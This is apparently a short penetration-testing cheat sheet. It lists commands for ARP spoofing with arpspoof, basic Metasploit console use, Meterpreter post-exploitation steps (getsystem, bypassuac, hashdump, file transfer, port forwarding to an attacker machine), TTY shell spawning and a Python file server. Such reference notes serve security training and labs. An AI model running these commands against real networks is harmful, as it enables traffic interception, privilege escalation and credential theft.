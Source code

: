<hr />
  
ARP Spoofing:

- To enable Port Forwarding, echo 1> /proc/sys/net/ipv4/ip_forward

- Run arpspoof, arpspoof -i [interface] -t <target machine IP> -r <host machine IP>

<hr />
  
Metasploit:

- Basic commands of metasploit-framework:

- To start metasploit-framework using CLI, msfconsole

- Without banner, msfconsole -q

after starting of MSF, these are the basic commands,
- search x
- use x
- info
- options, show advanced options
- SET X (e.g. set RHOST 10.10.10.10, set payload x)

<hr />
  
Meterpreter Commands:

- After getting meterpreter shell, we'll can issue some commands which will help us in exploiting the machine,

- background
- sessions -l
- sessions -i N (N is number)
- sysinfo, ifconfig, route, getuid
- getsystem (privesc)
- bypassuac
- download x /root/
- upload x C:\\Windows
- shell
- hashdump
For auto routing, use post/multi/manage/autoroute then set the options {SESSIONS, SUBNET} (will work if meterpreter shell shows that user is root)

Check active route table, route

port forwarding, portfwd add -L <attacker machine IP> -l listening_port -p 80 -r <host machine IP>

<hr />
  
Spawning a TTY shell:

- python -c 'import pty;pty.spawn("/bin/bash");'

<hr />
Start python based file server on our own instance:

- python3 -m http.server 80

<hr />
